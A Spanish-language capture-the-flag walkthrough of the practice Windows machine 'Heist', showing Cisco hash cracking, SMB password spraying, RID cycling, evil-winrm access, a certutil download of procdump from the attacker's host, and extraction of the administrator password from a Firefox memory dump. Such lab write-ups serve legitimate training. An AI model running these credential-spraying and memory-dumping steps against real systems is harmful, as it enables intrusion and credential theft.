

# Heist

Heist es un sistema operativo Windows de dificultad fácil con un portal de "Problemas" accesible en el servidor web, desde el que es posible obtener hashes de contraseñas de Cisco. Estos hashes se descifran y, posteriormente, se utiliza la fuerza bruta de RID y **Password Spraying** para obtener acceso al sistema. Se descubre que el usuario está ejecutando Firefox. Se puede descartar el proceso firefox.exe y buscar la contraseña del administrador.

<figure><figcaption></figcaption></figure>

***

## Reconnaissance <a href="#reconnaissance" id="reconnaissance"></a>

Realizaremos un reconocimiento con **nmap** para ver los puertos que están expuestos en la máquina **Heist**. Este resultado lo almacenaremos en un archivo llamado `allPorts`.

```bash
❯ nmap -p- --open -sS --min-rate 1000 -Pn -n 10.10.10.149 -oG allPorts
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-24 17:32 CET
Nmap scan report for 10.10.10.149
Host is up (0.061s latency).
Not shown: 65530 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
445/tcp   open  microsoft-ds
5985/tcp  open  wsman
49669/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 114.77 seconds
```

A través de la herramienta de [`extractPorts`](https://pastebin.com/X6b56TQ8), la utilizaremos para extraer los puertos del archivo que nos generó el primer escaneo a través de `Nmap`. Esta herramienta nos copiará en la clipboard los puertos encontrados.

```bash
❯ extractPorts allPorts

[*] Extracting information...

	[*] IP Address: 10.10.10.149
	[*] Open ports: 80,135,445,5985,49669

[*] Ports copied to clipboard
```

Lanzaremos scripts de reconocimiento sobre los puertos encontrados y lo exportaremos en formato oN y oX para posteriormente trabajar con ellos.

```bash
❯ nmap -sCV -p80,135,445,5985,49669 10.10.10.149 -A -oN targeted -oX targetedXML
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-24 17:48 CET
Nmap scan report for 10.10.10.149
Host is up (0.17s latency).

PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-title: Support Login Page
|_Requested resource was login.php
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc         Microsoft Windows RPC
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49669/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019|10 (97%)
OS CPE: cpe:/o:microsoft:windows_server_2019 cpe:/o:microsoft:windows_10
Aggressive OS guesses: Windows Server 2019 (97%), Microsoft Windows 10 1903 - 21H1 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 3s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-01-24T16:49:16
|_  start_date: N/A

TRACEROUTE (using port 135/tcp)
HOP RTT      ADDRESS
1   93.28 ms 10.10.16.1
2   93.65 ms 10.10.10.149

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 105.57 seconds
```

Transformaremos el archivo generado `targetedXML` para transformar el XML en un archivo HTML para posteriormente montar un servidor web y visualizarlo.

```bash
❯ xsltproc targetedXML > index.html

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Accederemos a[ http://localhost](http://localhost) y verificaremos el resultado en un formato más cómodo para su análisis.

<figure><figcaption></figcaption></figure>

## Information Leakage

Accederemos a[ http://10.10.10.149](http://10.10.10.149) y verificaremos que se trata de un panel de inicio de sesión. También ofrece la opción de iniciar sesión como invitado a través de la opción **Login as guest**.

<figure><figcaption></figcaption></figure>

Al acceder como usuario Invitado, comprobamos que hay una conversación interesante.

En la conversación que se muestra, el usuario llamado **Hazard** tiene problemas con su router Cisco, le indica al soporte técnico que le ha adjuntado un archivo con una parte de la configuración que el anterior administrador estaba utilizando en el router.

Probaremos de visualizar el archivo adjunto para verificar la configuración del router del usuario.&#x20;

<figure><figcaption></figcaption></figure>

Verificamos que tal y como había indicado el usuario, se trata de una parte de la configuración del router Cisco del usuario.

Entre la información que podemos rescatar, nos encontramos con un `enable secret` y dos contraseñas de los usuarios **rout3r** y **admin**.

<figure><figcaption></figcaption></figure>

### Cracking Hashes

Întentaremos crackear el hash de la contraseña de **enable secret** que encontramos. Nos encontramso que se trata de un hash de Cisco, con lo cual nos confirma que se trata de la contraseña del router Cisco que mencionaba.

Al ejecutar la herramiente de `hashcat`, logramos crackear el hash y obtener la contraseña en texto plano.

<pre class="language-bash"><code class="lang-bash">❯ hashid '$1$pdQG$o8nrSzsGXeaduXrjlvKc91'
Analyzing '$1$pdQG$o8nrSzsGXeaduXrjlvKc91'
[+] MD5 Crypt 
[+] Cisco-IOS(MD5) 
[+] FreeBSD MD5 

<strong>❯ hashcat -a 0 hashes /usr/share/wordlists/rockyou.txt
</strong>hashcat (v6.2.6) starting in autodetect mode

...[snip]...
$1$pdQG$o8nrSzsGXeaduXrjlvKc91:stealth1agent
</code></pre>

### Cisco Password 7 Decrypt

Por otro lado, nos queda crackear los hashes de las contraseñas de los usuarios **rout3r** y **admin**. Este tipo de hash se trata de una contraseña de Cisco Encriptada.

Realizando una búsqueda por Internet nos encontramos con la siguiente web en la cual nos explican como diferenciar los diferentes tipos de Cisco Passwords que existen.

En este caso, nos indica que nuestra contraseña encriptada, se encuentra encriptada en el algoritmo 7 de Cisco.



<figure><figcaption></figcaption></figure>

Buscando en Internet cómo podemos desencriptar esta contraseña de **Cisco Password 7**, nos encontramos con el siguiente blog de la página de Cisco en la cual un usuario menciona un sitio web dónde podremos utilizarlo para desencriptar la contraseña.





Al acceder al sitio web, ingresamos la contraseña y procedemos a crackearla. Logramos obtener la contraseña en texto plano.

<figure><figcaption></figcaption></figure>

Realizaremos el mismo proceso con la última contraseña que nos queda, también logramos obtener las credenciales válidas.

<figure><figcaption></figcaption></figure>

## Initial Access

### Netexec Brute Force Password

Dispnemos del siguiente listado de usuarios y contraseñas que hemos encontrado anteriormente.

```bash
❯ cat users.txt
rout3r
admin
hazard

❯ cat passwords.txt
stealth1agent
Q4)sJu\Y8qz*A3?d
$uperP@ssword
```

A través de la herramienta de **nxc** realizaremos fuerza bruta para verificar si alguna de las credenciales son válidas para algún usuario. Logramos validar las credenciales del usuario `hazard`.

```bash
❯ nxc smb 10.10.10.149 -u users.txt -p passwords.txt --continue-on-success
SMB         10.10.10.149    445    SUPPORTDESK      [*] Windows 10 / Server 2019 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\rout3r:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\admin:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\hazard:stealth1agent 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\rout3r:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\rout3r:$uperP@ssword STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\admin:$uperP@ssword STATUS_LOGON_FAILURE 
```

### RID Cycling Attack

A través de las credenciales de `hazard`, realizaremos un **RID Cycling Attack** para lograr obtener más usuarios válidos del equipo. En este caso, logramos obtener más nombres de usuarios.

```bash
❯ nxc smb 10.10.10.149 -u 'hazard' -p 'stealth1agent' --rid-brute | grep SidTypeUser
SMB         10.10.10.149    445    SUPPORTDESK      500: SUPPORTDESK\Administrator (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      501: SUPPORTDESK\Guest (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      503: SUPPORTDESK\DefaultAccount (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      1008: SUPPORTDESK\Hazard (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      1009: SUPPORTDESK\support (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      1012: SUPPORTDESK\Chase (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      1013: SUPPORTDESK\Jason (SidTypeUser)
```

Guardaremos estos nuevos usuarios encontrados en el archivo `users.txt`, volveremos a lanzar un ataque de fuerza bruta para validar si alguno de estos nuevos usuarios dispone de alguna contraseña válida del listado que tenemos.&#x20;

Logramos verificar las credenciales del usuario `chase`.

```bash
❯ nxc smb 10.10.10.149 -u users.txt -p passwords.txt --continue-on-success
SMB         10.10.10.149    445    SUPPORTDESK      [*] Windows 10 / Server 2019 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\admin:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\administrator:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\chase:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\defaultaccount:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\guest:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\hazard:stealth1agent 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\jason:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\support:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\wdagutilityaccount:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\admin:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\administrator:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\chase:Q4)sJu\Y8qz*A3?d 
...[snip]...
```

### Abusing WinRM - EvilWinRM

En la enumeración de **Nmap**, verificamos que el WinRM se encontraba abierto. Por lo tanto, probaremos de validar si a través del usuario `chase` podemos conectarnos al equipo.

Verificamos que disponemos de los permisos adecuados, nos conectaremos al equipo y visualizaremos la flag de **user.txt**.

```bash
❯ nxc winrm 10.10.10.149 -u 'chase' -p 'Q4)sJu\Y8qz*A3?d'
WINRM       10.10.10.149    5985   SUPPORTDESK      [*] Windows 10 / Server 2019 Build 17763 (name:SUPPORTDESK) (domain:SupportDesk)
WINRM       10.10.10.149    5985   SUPPORTDESK      [+] SupportDesk\chase:Q4)sJu\Y8qz*A3?d (Pwn3d!)

❯ evil-winrm -i 10.10.10.149 -u 'chase' -p 'Q4)sJu\Y8qz*A3?d'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Chase\Documents> type ../Desktop/user.txt
a06465920be*********************
```

## Privilege Escalation

### Creating a dump file of the Firefox Process - Procdump64.exe (Windows Sysinternals)

Revisando los procesos que se encuentran en ejecución, nos encontramos que existen varios de ellos que son del navegador Firefox, un tanto inusual.

```bash
*Evil-WinRM* PS C:\Users\Chase\Documents> ps

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
    465      18     2260       5440               368   0 csrss
    290      13     2340       5224               484   1 csrss
    357      15     3508      14560              3004   1 ctfmon
    252      14     3920      13212              3852   0 dllhost
    166       9     1876       9824       0.08   4320   1 dllhost
    617      32    30136      57808               964   1 dwm
   1494      58    24076      78476              5196   1 explorer
    378      28    21912      58856       0.38   1372   1 firefox
    355      25    16400      39096       0.11   5412   1 firefox
   1075      69   139428     217192       5.83   6716   1 firefox
    347      19    10256      36936       0.08   6936   1 firefox
    401      33    31076      88420       0.91   7128   1 firefox
```

A través de la herramienta de `ProcDump` de `Sysinternals`, lo que realizaremos es un volcado de memoria del proceso de Firefox para disponer y verificar la información del proceso.



Nos descargaremos el archivo comprimido `Procdum.zip` de la página oficial de `Sysinternals`. Una vez descomprimido, levantaremos un servidor web para compartir el archivo.

```bash
❯ ls -l
.rw-rw-r-- kali kali 714 KB Fri Jan 24 18:37:44 2025  Procdump.zip
❯ unzip Procdump.zip
Archive:  Procdump.zip
  inflating: procdump.exe            
  inflating: procdump64.exe          
  inflating: procdump64a.exe         
  inflating: Eula.txt                
❯ ls -l
.rw-rw-r-- kali kali 7.3 KB Thu Nov  3 15:55:00 2022  Eula.txt
.rw-rw-r-- kali kali 773 KB Thu Nov  3 15:55:14 2022  procdump.exe
.rw-rw-r-- kali kali 714 KB Fri Jan 24 18:37:44 2025  Procdump.zip
.rw-rw-r-- kali kali 415 KB Thu Nov  3 15:55:14 2022  procdump64.exe
.rw-rw-r-- kali kali 398 KB Thu Nov  3 15:55:14 2022  procdump64a.exe

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Desde el equipo víctima, nos descargaremos el binario de `ProcDump64.exe`.

```bash
*Evil-WinRM* PS C:\Test> certutil.exe -f -urlcache -split http://10.10.16.5/procdump64.exe
****  Online  ****
  000000  ...
  067b98
CertUtil: -URLCache command completed successfully.
*Evil-WinRM* PS C:\Test> dir


    Directory: C:\Test


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        1/24/2025  11:10 PM         424856 procdump64.exe
```

Realizaremos un volcado de memoria sobre el proceso de Firefox y nos descargaremos el volcado de memoria realizado.


Hay que realizar el volcado de memoria del proceso de Firefox que esté consumiendo más procesos, en nuestr caso era el 6716.


```bash
*Evil-WinRM* PS C:\Test> .\procdump64.exe -ma 6716 -accepteula

ProcDump v11.0 - Sysinternals process dump utility
Copyright (C) 2009-2022 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[23:14:18] Dump 1 initiated: C:\Test\firefox.exe_250124_231418.dmp
[23:14:19] Dump 1 writing: Estimated dump file size is 498 MB.
[23:14:20] Dump 1 complete: 498 MB written in 1.1 seconds
[23:14:20] Dump count reached.

*Evil-WinRM* PS C:\Test> download firefox.exe_250124_231418.dmp
```

### Reading the password of the administrator user in the previously performed dump

Revisaremos el volcado de memoria que disponemos en nustro equipo local, filtraremos por los campos que nos interesen y al parecer hemos logrado encontrar en el volcado de memoria lo que parecen ser las credenciales del usuario `Admninistrator`.

```bash
❯ strings firefox.exe_250124_231418.dmp | grep -iE "login_username|login_password"
"C:\Program Files\Mozilla Firefox\firefox.exe" localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
http://localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
http://localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
http://localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
:http://localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
:http://localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
O^privateBrowsingId=1,p,:http://localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
http://localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
```

Validaremos si son las credenciales válidas, al verificar el acceso, nos conectaremos mediante `evil-winrm` y lograremos visualizar la flag de **root.txt**.

```bash
❯ nxc smb 10.10.10.149 -u 'Administrator' -p '4dD!5}x/re8]FBuZ'
SMB         10.10.10.149    445    SUPPORTDESK      [*] Windows 10 / Server 2019 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\Administrator:4dD!5}x/re8]FBuZ (Pwn3d!)
❯ evil-winrm -i 10.10.10.149 -u 'Administrator' -p '4dD!5}x/re8]FBuZ'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> type ../Desktop/root.txt
ce9b4ccf9ab*********************
```
